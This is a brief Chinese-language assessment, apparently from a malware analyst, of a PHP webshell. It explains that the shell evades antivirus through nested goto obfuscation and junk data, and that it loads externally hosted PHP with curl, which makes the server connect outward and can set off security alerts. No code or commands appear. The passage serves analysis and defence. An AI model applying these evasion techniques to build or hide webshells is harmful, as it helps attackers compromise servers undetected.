这个WebShell大马，总体来说还行，采用了goto的嵌套加密方式，填充了少许垃圾数据，成功的绕过了杀软的污点跟踪技术（也可能是第二步 `curl` 加载外部托管的PHP时，在云查杀不联网的环境中无法加载，从而识别为正常文件）

但缺点也很明显：无法应对苛刻条件，因为 `curl` 加载外部托管的PHP代码，会使得被攻击的服务器产生外联行为，可能会使安全设备告警，同时对于不出网的环境（意味着被攻击的服务器无法访问外部托管的PHP代码）将束手无策

